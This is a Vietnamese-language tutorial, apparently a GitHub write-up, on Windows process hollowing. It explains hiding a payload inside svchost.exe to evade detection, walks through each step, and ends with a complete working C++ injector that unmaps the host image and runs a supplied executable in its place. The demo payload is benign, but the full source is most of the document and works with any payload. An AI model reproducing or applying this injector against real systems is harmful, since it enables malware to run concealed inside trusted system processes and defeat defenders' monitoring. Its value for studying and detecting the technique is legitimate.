# Process Hollowing

## Bối cảnh ban đầu

Khi thực hiện kĩ thuật Process Injection chúng ta sẽ cố gắng chèn payload của mình vào các process như ```explorer.exe``` hay ```notepad.exe```. Mặc dù có thể lẩn trốn hiệu quả ở các process này, nhưng dễ bị truy vết hay để ý vì có thể sinh ra các kết nối mạng, điều mà 2 ứng dụng này không có hành vi như vậy.

Vì vậy hướng tới mục tiêu mới là ```svchost.exe``` - một process thường tạo ra các kết nối mạng để tránh sự nghi ngờ. Tuy nhiên đây là một process đặc biệt vì được chạy ở chế độ bảo vệ ```SYSTEM Integrity Level```, nếu cố gắng inject thông thường, tiến trình sẽ bị tạm dừng ngay lập tức. 

Và các hay ho để giải quyết việc này đó là chúng ta sẽ khởi chạy ```svchost.exe``` và sửa đổi nó trước khi nó thực sự bắt đầu thực thi.
Điều này gọi là ```Process Hollowing```.

## Tổng quan chung

Process Hollowing là một trong những kỉ thuật ẩn dấu process. Ý tưởng là tạo ra một tiến trình mới ở trạng thái tạm dừng (treo). Phần image (mã thực thi trên RAM) của process bị chèn sẽ bị gỡ bỏ và thay thế bằng image của process bị ẩn. Tức là process ban đầu sẽ không còn chứa code thực thi của nó nữa mà thay thế bằng code của process ẩn. 

Việc này đòi hỏi xử lý rebased vì có thể ImageBase của image cũ khác image mới. Mỗi khi có một image mới được nạp vào bộ nhớ thì thanh ghi EAX của luồng bị treo sẽ được đặt là entry point. Process sau đó được tiếp tục và entry point của image mới sẽ được thực thi.

Có sử dụng các hàm Windows API:

- ```CreateProcessW``` tạo process mới ở chế độ tạm dừng hay treo mới với dwCreationFlags ở chế độ treo là 0x00000004.
- ```GetThreadContext``` truy xuất context của luồng được chỉ định. 
- ```NtUnmapViewOfSection``` hủy ánh xạ một vùng ánh xạ của một section ra khỏi không gian địa chỉ ảo của tiến trình được chỉ định.
- ```VirtualAllocEx``` phân bổ bộ nhớ trong không gian tiến trình bị treo.
- ```SetThreadContext``` đặt thanh ghi EAX là entrypoint của chương trình thực thi.
- ```ResumeThread``` hủy treo của luồng bị treo.

## Chi tiết xây dựng mã nguồn

## Lưu ý quan trọng

Để đáp ứng, thực hiện thành công process hollowing, về chương trình cần ẩn cần đáp ứng một số yêu cầu để thích ứng. Subsystem nếu chương trình thay thế và chương trình cần ẩn đều dạng console thì nên để console, gui thì để windows. 



Trình biên dịch nên sử dụng Runtime Library là /MT hoặc /MTd.




## Tạo process



Process được tạo ra ở trạng thái treo với CREATE_SUSPENDED cho tham số dwCreationFlags kết hợp với CREATE_NO_WINDOW để chạy mà không tạo cửa sổ console.

## Đọc file image ẩn lấy Dos Header và Nt Header



Sử dụng các hàm ```CreateFileW``` và ```ReadFile```.

## Lấy thông tin Process đích như ImageBase và PEB



Sử dụng hàm ```NtQueryInformationProcess```



Trả về cấu trúc ```_PROCESS_BASIC_INFORMATION``` chúng ta lần lượt lấy được PEB và ImageBase tương ứng.

## Unmap vùng nhớ trên Process hiện tại 



Sử dụng ```NtUnmapViewOfSection```.

## Phân bổ vùng nhớ 

Thử với imagebase mới nếu không được thì truyền NULL để tự cấp phát sử dụng ```VirtualAllocEx```



## Tiến hành ghi header cùng các sections.



## Relocation nếu cần thiết

Nếu 2 imagebase có sự chênh lệch thì việc này là cần thiết. 


## Cập nhật ImageBase Address



## Cập nhật lại Thread Context



Lấy AddressOfEntryPoint và tính toán RIP hoặc EIP. Sử dụng 2 hàm ```GetThreadContext``` và ```SetThreadContext```.

## Cuối cùng là Resume lại Thread và dọn dẹp



## Demo inject svchost.exe và tạo ra file example.txt

Inject thử với svchost.exe ở đây là 64 bit và code cũng cần release 64 bit.

Mã nguồn chương trình inject 




Thành công tạo ra được file example.txt với nội dung luongvd.

## Code demo hoạt động tốt trên các file x64

<details> 
 <summary>Xem code</summary>
 
```C++
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

using namespace std;

#pragma comment(lib, "ntdll.lib")

extern "C" NTSTATUS NTAPI NtQueryInformationProcess(
	HANDLE ProcessHandle,
	UINT ProcessInformationClass,
	PVOID ProcessInformation,
	ULONG ProcessInformationLength,
	PULONG ReturnLength
);

extern "C" NTSTATUS NTAPI NtUnmapViewOfSection(
	HANDLE ProcessHandle,
	PVOID BaseAddress
);

typedef struct _PROCESS_BASIC_INFORMATION {
	PVOID Reserved1;
	PVOID PebBaseAddress;
	PVOID Reserved2[2];
	ULONG_PTR UniqueProcessId;							
	PVOID Reserved3;
} PROCESS_BASIC_INFORMATION;

struct Payload {
	BYTE* buffer = nullptr;
	DWORD bufferSize = 0;
	PIMAGE_DOS_HEADER dos = nullptr;
	PIMAGE_NT_HEADERS nt = nullptr;
};

static BOOL CreateSuspendedProcess(const wchar_t* targetPath, PROCESS_INFORMATION& pi)
{
	STARTUPINFOW si = { 0 };
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	return CreateProcessW(targetPath, NULL, NULL, NULL, FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
}

static bool ReadPayloadFromFile(const wchar_t* payloadPath, Payload& out)
{
	HANDLE h = CreateFileW(payloadPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (h == INVALID_HANDLE_VALUE) return false;
	DWORD size = GetFileSize(h, NULL);
	if (size == INVALID_FILE_SIZE || size == 0) { CloseHandle(h); return false; }
	out.buffer = new BYTE[size];
	out.bufferSize = size;
	DWORD read = 0;
	if (!ReadFile(h, out.buffer, size, &read, NULL) || read != size) {
		CloseHandle(h);
		delete[] out.buffer;
		out.buffer = nullptr;
		out.bufferSize = 0;
		return false;
	}
	CloseHandle(h);

	out.dos = (PIMAGE_DOS_HEADER)out.buffer;
	out.nt = (PIMAGE_NT_HEADERS)(out.buffer + out.dos->e_lfanew);
	return true;
}

static bool GetProcessBasicInfo(HANDLE hProcess, PROCESS_BASIC_INFORMATION& pbi)
{
	ULONG retLen = 0;
	NTSTATUS status = NtQueryInformationProcess(hProcess, 0, &pbi, sizeof(pbi), &retLen);
	return status == 0;
}

static bool ReadRemoteImageBase(HANDLE hProcess, PVOID pebAddress, ULONG_PTR& imageBase)
{
	SIZE_T bytesRead = 0;
	// PEB->ImageBaseAddress is at offset 0x10 on common Windows versions; keep original behavior
	LPVOID remoteAddr = (LPVOID)((uintptr_t)pebAddress + 0x10);
	return ReadProcessMemory(hProcess, remoteAddr, &imageBase, sizeof(imageBase), &bytesRead) && bytesRead == sizeof(imageBase);
}

static bool UnmapExistingImage(HANDLE hProcess, ULONG_PTR imageBase)
{
	NTSTATUS status = NtUnmapViewOfSection(hProcess, (PVOID)imageBase);
	// non-zero indicates error; allow continuation but report
	if (status != 0) {
		cout << "NtUnmapViewOfSection returned status: 0x" << hex << status << dec << endl;
	}
	return true;
}

static LPVOID AllocateImageInTarget(HANDLE hProcess, PIMAGE_NT_HEADERS nt)
{
	LPVOID base = VirtualAllocEx(hProcess, (LPVOID)(nt->OptionalHeader.ImageBase),
		nt->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (!base) {
		base = VirtualAllocEx(hProcess, NULL, nt->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	}
	return base;
}

static bool WriteHeadersAndSections(HANDLE hProcess, LPVOID remoteBase, Payload& payload)
{
	SIZE_T written = 0;
	if (!WriteProcessMemory(hProcess, remoteBase, payload.buffer, payload.nt->OptionalHeader.SizeOfHeaders, &written)) return false;

	PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(payload.nt);
	for (int i = 0; i < payload.nt->FileHeader.NumberOfSections; i++, section++) {
		if (section->SizeOfRawData == 0) continue;
		LPVOID dest = (LPVOID)((uintptr_t)remoteBase + section->VirtualAddress);
		LPVOID src = payload.buffer + section->PointerToRawData;
		if (!WriteProcessMemory(hProcess, dest, src, section->SizeOfRawData, &written)) return false;
	}
	return true;
}

static void PerformRelocationsIfNeeded(HANDLE hProcess, LPVOID remoteBase, Payload& payload)
{
	DWORD_PTR delta = (DWORD_PTR)remoteBase - payload.nt->OptionalHeader.ImageBase;
	if (delta == 0) return;

	DWORD relocVA = payload.nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress; // Relocation Table Virtual Address 
	DWORD relocSize = payload.nt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].Size; // Relocation Table Size
	if (!relocVA || !relocSize) return;

	PIMAGE_BASE_RELOCATION reloc = (PIMAGE_BASE_RELOCATION)(payload.buffer + relocVA); // Pointer to the first relocation block 
	PIMAGE_BASE_RELOCATION relocEnd = (PIMAGE_BASE_RELOCATION)((BYTE*)reloc + relocSize); // End of relocation table

	while ((BYTE*)reloc < (BYTE*)relocEnd && reloc->SizeOfBlock) { // Process each relocation block
		DWORD count = (reloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD); // Number of entries in this block
		PWORD entries = (PWORD)((BYTE*)reloc + sizeof(IMAGE_BASE_RELOCATION)); // Pointer to the first entry
		for (DWORD i = 0; i < count; ++i) {
			WORD entry = entries[i];
			WORD type = entry >> 12; // High 4 bits
			WORD offset = entry & 0x0FFF; // Low 12 bits
			if (type == IMAGE_REL_BASED_HIGHLOW || type == IMAGE_REL_BASED_DIR64) { // Process only HIGHLOW and DIR64 relocations
				ULONG_PTR patchAddr = (ULONG_PTR)remoteBase + reloc->VirtualAddress + offset; // Address to patch in remote process
				ULONG_PTR original = 0;
				SIZE_T br = 0;
				if (ReadProcessMemory(hProcess, (LPCVOID)patchAddr, &original, sizeof(original), &br) && br == sizeof(original)) { // Read the original value
					original += delta;
					WriteProcessMemory(hProcess, (LPVOID)patchAddr, &original, sizeof(original), NULL); // Write the patched value back
				}
			}
		} 
		reloc = (PIMAGE_BASE_RELOCATION)((BYTE*)reloc + reloc->SizeOfBlock); // Move to the next relocation block
	}
}

static bool UpdateRemotePEBImageBase(HANDLE hProcess, PVOID pebAddress, LPVOID newBase)
{
	SIZE_T written = 0;
	LPVOID remoteAddr = (LPVOID)((uintptr_t)pebAddress + 0x10);
	return WriteProcessMemory(hProcess, remoteAddr, &newBase, sizeof(newBase), &written) && written == sizeof(newBase);
}

static bool FixThreadContextAndEntry(HANDLE hThread, LPVOID newBase, PIMAGE_NT_HEADERS nt)
{
	CONTEXT ctx;
	ZeroMemory(&ctx, sizeof(ctx));
#ifdef _WIN64
	ctx.ContextFlags = CONTEXT_FULL;
	if (!GetThreadContext(hThread, &ctx)) return false;
	ctx.Rip = (DWORD64)((uintptr_t)newBase + nt->OptionalHeader.AddressOfEntryPoint);
#else
	ctx.ContextFlags = CONTEXT_FULL;
	if (!GetThreadContext(hThread, &ctx)) return false;
	ctx.Eip = (DWORD)((uintptr_t)newBase + nt->OptionalHeader.AddressOfEntryPoint);
#endif
	return SetThreadContext(hThread, &ctx) != 0;
}

BOOL ProcessHollowing(const wchar_t* targetProcessPath, const wchar_t* payloadProcessPath)
{
	PROCESS_INFORMATION pi = { 0 };
	if (!CreateSuspendedProcess(targetProcessPath, pi)) {
		cout << "CreateProcess failed. Error: " << GetLastError() << endl;
		return FALSE;
	}
	cout << "Created suspended process PID: " << dec << pi.dwProcessId << endl;

	// Read payload from disk
	Payload payload;
	if (!ReadPayloadFromFile(payloadProcessPath, payload)) {
		cout << "Failed to read payload file. Error: " << GetLastError() << endl;
		TerminateProcess(pi.hProcess, 0);
		return FALSE;
	}

	// Get target process basic info and image base from PEB
	PROCESS_BASIC_INFORMATION pbi;
	if (!GetProcessBasicInfo(pi.hProcess, pbi)) {
		cout << "NtQueryInformationProcess failed." << endl;
		delete[] payload.buffer;
		TerminateProcess(pi.hProcess, 0);
		return FALSE;
	}

	ULONG_PTR remoteImageBase = 0;
	if (!ReadRemoteImageBase(pi.hProcess, pbi.PebBaseAddress, remoteImageBase)) {
		cout << "ReadProcessMemory(peb->ImageBase) failed. Error: " << GetLastError() << endl;
		delete[] payload.buffer;
		TerminateProcess(pi.hProcess, 0);
		return FALSE;
	}

	// Unmap existing image
	UnmapExistingImage(pi.hProcess, remoteImageBase);

	// Allocate memory in target for payload
	LPVOID newBase = AllocateImageInTarget(pi.hProcess, payload.nt);
	if (!newBase) {
		cout << "VirtualAllocEx failed. Error: " << GetLastError() << endl;
		delete[] payload.buffer;
		TerminateProcess(pi.hProcess, 0);
		return FALSE;
	}
	cout << "Allocated remote image at: " << hex << newBase << dec << endl;

	// Write headers and sections
	if (!WriteHeadersAndSections(pi.hProcess, newBase, payload)) {
		cout << "WriteProcessMemory (headers/sections) failed. Error: " << GetLastError() << endl;
		delete[] payload.buffer;
		TerminateProcess(pi.hProcess, 0);
		return FALSE;
	}

	// Perform relocations if needed
	PerformRelocationsIfNeeded(pi.hProcess, newBase, payload);

	// Update PEB ImageBaseAddress
	if (!UpdateRemotePEBImageBase(pi.hProcess, pbi.PebBaseAddress, newBase)) {
		cout << "Warning: Failed to update remote PEB ImageBaseAddress. Error: " << GetLastError() << endl;
		// Not fatal; continue
	}

	// Fix thread context to point to new entry point
	if (!FixThreadContextAndEntry(pi.hThread, newBase, payload.nt)) {
		cout << "SetThreadContext failed. Error: " << GetLastError() << endl;
		delete[] payload.buffer;
		TerminateProcess(pi.hProcess, 0);
		return FALSE;
	}

	// Resume target thread
	ResumeThread(pi.hThread);

	// Clean up
	delete[] payload.buffer;
	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);

	return TRUE;
}

int main()
{
	const wchar_t* targetProcessPath = L"C:\\Windows\\System32\\svchost.exe";
	const wchar_t* payloadProcessPath = L"HelloWorld.exe";
	BOOL result = ProcessHollowing(targetProcessPath, payloadProcessPath);
	if (result) {
		cout << "Process hollowing succeeded." << endl;
	}
	else {
		cout << "Process hollowing failed." << endl;
	}
	return 0;
}
```
